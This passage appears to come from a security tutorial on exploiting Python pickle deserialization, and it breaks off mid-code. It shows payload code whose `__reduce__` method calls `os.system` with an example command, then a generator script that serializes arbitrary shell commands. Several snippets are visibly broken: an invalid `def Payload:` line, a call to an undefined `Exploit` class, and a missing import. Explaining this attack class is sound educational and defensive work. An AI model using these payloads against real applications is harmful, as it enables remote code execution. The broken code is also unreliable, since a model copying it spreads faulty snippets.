 As you can see, pickle `load()` function is called without any prior check on the file content, allowing an attacker to pass an arbitrary binary payload to the application.

How can that be exploited? In Python, no tool like ysoserial is available, and there is no clear definition of POP gadget as it was for the previous analysed languages, but in this context, there is no need for them at all.

Indeed, for pickle, _pickle and cPickle, a payload may be crafted using a simple piece of code, like the following:

```python
import _pickle

class Payload(object):
    def __reduce__(self):
        return (os.system, ('whoami',))

def serialize_exploit():
    shellcode = _pickle.dumps(Exploit())
    return shellcode

```

Changing the return function, it would be possible to generate the payload needed to execute different commands. However, it is more than possible to create something way more general than this, using various techniques, the first we'll see is known as dynamic class generation, code below:

```python
import os
import _pickle
import sys

def Payload:
    pass

    def __reduce__(self):
        pass

def _patch(bytestream):
    byte_array = bytearray(bytestream)
    byte_array[-4] = int("52", 16)
    return bytes(byte_array)

def generate_class(name=None, methods=None):
    if not name:
        return None
    elif not methods:
        return None
    else:
        return type(name, (object,), methods)()

def serialize_class(commands):
    if not commands:
        print(f"[-] No command provided")
    else:
        methods = {
            "__reduce__": lambda self: (os.system, (commands,))
        }
        cls = generate_class("Payload", methods)
        return cls.__reduce__()

command = " ".join(sys.argv[1:])
print(f"[+] Generating serialized object for:")
print(f"    {command}")

with open("payload", "wb") as payload:
```